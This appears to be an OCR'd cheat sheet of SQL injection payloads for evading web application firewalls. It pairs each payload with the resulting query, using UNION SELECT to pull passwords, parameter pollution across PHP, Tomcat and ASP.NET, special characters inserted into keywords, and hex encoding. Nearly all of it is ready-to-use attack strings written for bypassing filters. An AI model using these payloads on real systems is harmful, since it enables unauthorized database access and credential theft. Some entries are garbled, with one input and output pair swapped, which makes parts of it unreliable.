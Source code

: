 
INPUT: ?1+union+select+password+from+table_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;

INPUT: ?username =1/**/union/*&username=*/select/*&username=*/password/*&username=*/from/*&username=*/table_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;


## Multiple parameters of same name are interpreted differently by different languages and frameworks
PHP/Apache:
Considers the last occurence

INPUT: ?username=guest&username=admin
 
-> JSP, Servlet, Apache Tomcat: Considers the first occurence
INPUT: ?username=admin&username=guest

-> ASP.NET/IIS: Combines the parameters
INPUT: ?username=ad&username=min

OUTPUT: select * from table_name where username =’admin’;


## Using Special characters
|, ?, “, ‘, *, %, £ , [], ;, :, \/, $, €, ()

Usually the WAF would consider these special characters as spaces or ignore them which lets us bypass various keywords being blacklisted.

INPUT: ?username =1+uni*on+sel*ect+password+fr*om+table_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;

INPUT: ?username =1 union select password from table_name#
OUTPUT: select * from table_name where username =1+uni%on+sel%ect+password+fr%om+table_name;

INPUT: ?username =1+uni’’’on+sel’’’ect+password+fr’’’om+table_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;

## Hex Encoding
When particular keywords are blacklisted, we could substitute with the hex encoded value because after the URL is parsed, it decodes it and turns the hex values to plain text.


INPUT: ?username = 1 %75%6e%69%6f%6e %73%65%6c%65%63%74 password %66%72%6f%6d table_name#
OUTPUT: select * from table_name where username = 1 union select password from table_name;

INPUT: ?username = 0x61646d696e#
OUTPUT: select * from table_name where username = admin;

## URL Encoding
Similar to hex encoding, by substituting hex values to all the blacklisted words and bypass it once the URL gets decoded.

